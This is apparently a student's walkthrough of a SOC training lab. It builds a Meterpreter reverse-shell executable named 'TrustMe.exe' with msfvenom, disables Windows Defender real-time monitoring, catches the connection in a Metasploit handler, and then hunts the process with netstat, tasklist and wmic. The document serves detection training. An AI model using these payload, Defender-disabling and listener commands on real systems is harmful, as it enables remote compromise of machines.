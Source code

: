 ```yaml
---
{"dg-publish":true,"permalink":"/webinars-and-training/black-hills-soc-core/labs/bhis-socc-lab-windows-cli/"}
---
```




## LAB: Windows CLI
[WindowsCLI.md](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/WindowsCLI/WindowsCLI.md)

In this lab, we're creating and running malware on our system, and then investigating it using [[Tool Deep-Dives/Windows/NET\|net]], [[Tool Deep-Dives/Windows/netstat\|netstat]], [[Tool Deep-Dives/Windows/tasklist\|tasklist]], and [[Tool Deep-Dives/Windows/wmic\|wmic]].

### Windows Lab
1. Get the malware going
	1. Disable protections
		1. First, we disable real time monitoring, because while it's supposed to be off, it might have turned itself back on.
		2. PowerShell, as admin: `Set-MpPreference -DisableRealtimeMonitoring $true`
		3. **You SHOULD get an error.** `A general error occurred that is not covered by a more specific error code.` is a good thing, and means it's already been disabled.
	2. Get the Linux interface name and IP
		1. The lab uses `ifconfig` and I'm used to that, but `ip a` is what all the kids are doing, and you gotta keep up with the times.
			1. Mine is `eth0` and IP `172.17.28.218/20`
			2. *Yours will be different*
	4. Create and deploy the malware
		1. In the same Linux panel, create the Meterpreter malware, and name it something totally legit, like *TrustMe.exe*^[This can be any name you want; for example, notepad.exe]
			1. We're badguys, so jumping right in with `sudo su -`
			2. Create the malware using [[Tool Deep-Dives/Metasploit/msfvenom\|msfvenom]], a Metasploit payload generator and encoder.
				1. `msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=eth0 lport=4444 -f exe -o /tmp/TrustMe.exe`
				2. **NOTE**: `lhost` can be the IP *or* the interface.
					1. I'm making this kinda copy-paste^[We'll see how that goes if/when I come back to this lab in a few weeks time.], so using `eth0` instead of my IP
			3. Check the file and move it onto the Windows system in the tools folder
				1. `cd /tmp && ls -l TrustMe.exe && cp ./TrustMe.exe /mnt/c/tools`
	5. Start the Metasploit handler^[I never met a sploit I couldn't handle.^[I'm sorry, I'm so sorry, please don't hate me.]]
		1. Create a new terminal in Linux and elevate to root
			1. `sudo su -`
		2. Configure Metasploit
			1. Launch Metasploit
				1. `msfconsole -q`
			2. Configure the handler
				1. `use exploit/multi/handler`
				2. `set PAYLOAD windows/meterpreter/reverse_tcp`
				3. `set LHOST eth0`
			3. [Run](https://www.youtube.com/watch?v=mw2kKyJu9gY)
				1. `exploit`
		3. Execute `TrustMe.exe`
			1. Open CMD as Admin, `cd \tools`, then run `TrustMe.exe`
			2. **NOTE**: While I was documenting everything, something got borked and it didn't work.
				1. I think I just took too long.
				2. I killed the Terminal, killed the "Apache Workbench" (or something similar) in Task Manager, and started from the beginning, and everything worked fine.
		4. Confirm we have access
			1. Navigate back over to the Metasploit terminal, and you should see the connection initiated
			2. ![BHIS-SOCC-lab-WindowsCLI.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI.png)
2. Create a sharedrive and some sessions
	1. This is not part of the malware section, and I think it's just setup
	2. Open CMD as Admin, and create a new shared folder
		1. `net share class=C:\Tools`
			2. `net share` creates a shared folder
			3. `class` is the name of the shared folder, and it routes to `C:\Tools`
				1. The share name could be anything; `tools`, `sharedrive`, or `BunchOfGarbageFiles`
			4. The folder can then be accessed with `\\<computer address>\class`
				1. This is either the name of the computer or its network address
				2. e.g., `\\Computer-name\class` or `\\192.168.0.1\class`
		2. `net use * \\127.0.0.1\c$`
			1. `net use` maps a network share to a local drive number
			2. `*` tells it to use the first available drive number
				1. In my case, `Z:`
			3. `\\127.0.0.1\c$` identifies the remote computer (`127.0.0.1`) and the *remote* assigned drive name (`c$`)
				1. In this case, the C drive
				2. Many years ago in a fairly unrestricted work environment, I would often remotely drop scripts and installers directly onto client computers by going to `\\JDOE-1234\c$\Installers`
					1. These files would then be accessible at `C:\Installers`
3. Find the baddies
	1. Start by checking for network shares on this computer
		1. `net session`
			1. Shows us all the remote sessions initiated on this computer.
		2. `net use`
			1. Shows all the active shared drive connections, in this case the share locally known as `Z:`, and remotely known as `\\127.0.0.1\c$`
		3. `net view \\127.0.0.1`
			1. Since we've noticed that 127 address being used in the prior two commands, we can use `net view` to investigate it a little more
			2. Shows all shared resources at `\\127.0.0.1`, which is the [loopback address](https://ccnadefinitions.com/ccna/20-definitions/i-pv4-address-classes/)^[The address the computer uses to refer to itself.] of the computer
			3. You should see a `Disk` called `class` listed here.
				1. If there were more than one share, you would see more.
	2. Let's use [[Tool Deep-Dives/Windows/netstat\|netstat]] to investigate
		1. `netstat -naob`
			1. List active processes; grab the PID for any suspicious *ESTABLISHED* sessions (e.g. `trustme.exe`)
				1. In my case, the PID is `7472`
			2. The format is a little unintuitive, but the first line is indented; The malware is highlighted below.
				1. ![BHIS-SOCC-lab-WindowsCLI-1.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-1.png)
	3. `netstat -f`
		1. Shows all established connections and their *Foreign Address* (`-f`)
			1. Domainless connections are pretty sus, and of course our malware ain't got no domain!
	4. `tasklist /m /fi "pid eq <PID>"`
		1. Find the associated file in the [[Tool Deep-Dives/Windows/tasklist\|tasklist]] and its associated modules (`/m`)
	5. `wmic process where processid=<PID> get commandline`
		1. This is way to indicate if something was launched from commandline
			1. Resources launched from commandline will typically just be the resource, and not the full path, etc.
		2. `TrustMe.exe` has a fairly simple output, but that got me thinking; let's do an experiment with Notepad.
			1. Launch Notepad in three ways:
				1. Start menu > Notepad
					1. Launching notepad like normal
				2. cmd: `C:\Users\adhd> notepad.exe /?`
					1. The `/?` will throw a syntax error, but Notepad will still launch and it gives us a clear delineator
				3. cmd: `"C:\WINDOWS\system32\notepad.exe"`
					1. This should mimic launching Notepad like a normal user
			2. Find the PIDs with `tasklist /m /fi "imagename eq notepad.exe"`
				1. ![BHIS-SOCC-lab-WindowsCLI-3.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-3.png)
			3. Take the PID from each Notepad process and run the `wmic` command from earlier.
				1. ![BHIS-SOCC-lab-WindowsCLI-4.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-4.png)
			4. As we can see, the Notepad processes with PID 7064 and 4036 look identical
	6. `wmic process get name,parentprocessid,processid`
		1. Pipe it to `| find "[PID]"` to identify all processes associated with the PID or parent PID
			1. Here, I progressively searched down the parent Process ID to see who launched what and when
			2. ![BHIS-SOCC-lab-WindowsCLI-2.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-2.png)
		2. So this is interesting, but let's go back and check our notepad example
			1. We can see the two processes we kicked off from the Terminal
				1. ![BHIS-SOCC-lab-WindowsCLI-5.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-5.png)
			2. Here I've drilled into the processes started in the Terminal
				1. The parent process is `WindowsTerminal.exe`, and we can see all the other shenanigans it's got running.
				2. ![BHIS-SOCC-lab-WindowsCLI-6.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-6.png)
			4. Here's what we see with the normally-begun process; it was started by "explorer.exe"
				1. It looks much more straightforward and clean.
				2. ![BHIS-SOCC-lab-WindowsCLI-8.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-8.png)

### Thoughts
This was interesting, but feels like it could be optimized; maybe a script that specifically looks for processes begun by PowerShell or cmd.exe, or could visualize it by showing the whole process tree of suspicious activity. Maybe a [[Tool Deep-Dives/Python/Python\|Python]] project...

#### Other tools for threat hunting
[[Tool Deep-Dives/DeepBlueCLI\|DeepBlueCLI]]
[[Tool Deep-Dives/Windows/Sysmon\|Sysmon]]
